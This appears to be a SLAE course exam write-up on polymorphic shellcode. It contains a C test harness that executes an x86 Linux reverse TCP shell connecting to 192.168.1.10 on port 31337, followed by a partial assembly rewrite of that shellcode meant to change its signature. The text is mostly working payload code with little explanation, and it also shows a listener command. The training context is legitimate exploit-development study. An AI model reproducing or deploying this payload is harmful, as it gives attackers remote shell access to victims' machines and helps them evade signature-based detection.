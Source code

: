 ```c
 ipaddr 192.168.1.10 (c0a8010a)
 port 31337 (7a69)
*/
#define IPADDR "\xc0\xa8\x01\x0a"
#define PORT "\x7a\x69"

unsigned char code[] =
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2"
"\xb0\x66\xb3\x01\x51\x6a\x06\x6a"
"\x01\x6a\x02\x89\xe1\xcd\x80\x89"
"\xc6\xb0\x66\x31\xdb\xb3\x02\x68"
IPADDR"\x66\x68"PORT"\x66\x53\xfe"
"\xc3\x89\xe1\x6a\x10\x51\x56\x89"
"\xe1\xcd\x80\x31\xc9\xb1\x03\xfe"
"\xc9\xb0\x3f\xcd\x80\x75\xf8\x31"
"\xc0\x52\x68\x6e\x2f\x73\x68\x68"
"\x2f\x2f\x62\x69\x89\xe3\x52\x53"
"\x89\xe1\x52\x89\xe2\xb0\x0b\xcd"
"\x80";

main()
{
    printf("Shellcode Length: %d\n", sizeof(code)-1);
    int (*ret)() = (int(*)())code;
    ret();
}
```

The polymorphic (modified) version of the original shellcode is scripted in Assembly:

```nasm 
; Filename: revtcpshell_poly.nasm
; Author: h3ll0clar1c3
; Purpose: Reverse shell connecting back to IP address 127.0.0.1 on TCP port 31337
; Compilation: ./compile.sh revtcpshell_poly
; Usage: ./revtcpshell_poly
; Testing: nc -lv 31337
; Shellcode size: 105 bytes
; Architecture: x86

global   _start

section .text
        _start:

	sub eax, eax			; initialize register // changed the method
	sub ebx, ebx			; initialize register // changed the method
	sub ecx, ecx			; initialize register // changed the method
	sub edx, edx			; initialize register // changed the method

	add al, 0x66			; add 0x66 to al // changed the method
	inc bl				; increase bl by 0x1 // changed the method
	push ecx			; push ecx onto the stack 
	mov byte [esp-8], 0x2		; move 0x2 into esp-8 // changed the order
	mov byte [esp], 0x6		; move 0x6 into esp 
	mov byte [esp-4], 0x1		; move 0x1 into esp-4
	sub esp, 0x8			; adjust stack pointer	
	push esp 			; push esp onto the stack
	pop ecx				; pop ecx off the stack
	int 0x80			; call the interrupt to execute the 1st syscall
	mov esi, eax			; move eax into esi
	mov al, 0x66			; move 0x66 into al
	inc bl				; increase bl

```

[slae-link]: http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert
[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment6
[execve-shellstorm]: http://shell-storm.org/shellcode/files/shellcode-811.php
[reversetcp-shellstorm]: http://shell-storm.org/shellcode/files/shellcode-849.php